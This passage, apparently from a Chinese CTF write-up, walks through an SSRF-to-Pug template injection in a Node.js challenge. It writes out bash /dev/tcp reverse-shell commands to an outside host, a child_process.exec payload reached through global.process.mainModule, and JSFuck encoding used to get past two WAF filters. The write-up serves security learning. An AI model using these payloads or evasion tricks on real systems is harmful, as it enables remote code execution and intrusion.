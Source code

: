 然后可以本地尝试以下。是否发出了两次请求。
由于原题目没有日志，我们修改源码，可以开启一下日志。添加如下两行即可。（记得`npm install morgan`)

```js
var morgan = require('morgan');
app.use(morgan('short'));
```

![](http://img.5am3.com/5am3/img/20200209132217.png)

至此，ssrf已经get。接下来分析`/flag`接口。
可以看到，其传入了两个参数，都是以headers的形式。
adminauth是一个密码，pug则是我们要渲染的模板内容。
了解过ssti的同学一定不陌生模板这个东西。
在nodejs中，pug是一个模板引擎。其表达式形式为`#{}`
(#因为其在url中特殊用途，所以需要按如上方式再次编码。)


我们只需构造我们的代码，来获取flag即可。

在这里我又陷入了一个深坑。
nodejs 的exec默认采用sh执行，而sh在不同系统指向也不同，主要分为bash和dash，如果在dash中执行以下命令反弹shell，是会出问题的。
```bash
bash -i >& /dev/tcp/10.0.1.98/7777 0>&1
```
具体可参考：[解决ubuntu反弹shell失败的问题](https://www.dazhuanlan.com/2019/11/15/5dce507a41df5/)

解决方法：
```bash
bash -c "bash -i >& /dev/tcp/evalip/2202 0>&1"
```

然后构造nodejs的反弹shell即可。

```js
global.process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/evalip/2202 0>&1"')
```
在pug模板中，不能直接用require，所以我们采用如上方式。

此时审查代码，可以发现这里有2个waf。
![](http://img.5am3.com/5am3/img/20200209213857.png)

![](http://img.5am3.com/5am3/img/20200209213933.png)

分别是，禁止列表内元素，以及禁止小写字母出现。

刚入门CTF时，大家可能都接触过，jsfuck，aaencode，jjencode，在这里，我分析以上三种编解码后，采取了jsfuck。

虽然jsfuck中存在`!`，但是我们根绝相关文档，可以将其替换为数字。
[jsfuck在线编码](https://www.bugku.com/tools/jsfuck/)

其实有!号含义，主要有以下几种。我们可以一一替换一下
```
false     =>  ![]   => (1==0)
true      =>  !![]   => (1==1)
1         =>  !+[]   => (1)
```
然后将我们的反弹shell的payload编码，然后将叹号做如上替换即可。
(先替换true，后替换false)
